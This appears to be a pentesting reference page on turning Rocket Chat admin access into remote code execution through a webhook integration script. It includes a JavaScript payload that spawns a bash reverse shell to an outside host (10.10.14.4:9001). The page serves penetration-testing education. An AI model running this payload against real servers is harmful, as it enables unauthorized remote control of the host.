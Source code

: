 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## RCE

If you are admin inside Rocket Chat you can get RCE.

- Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  - `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

- Configure the WebHook (the channel and post as username must exists):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Configure WebHook script:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Save changes
- Get the generated WebHook URL:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Call it with curl and you shuold receive the rev shell

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}
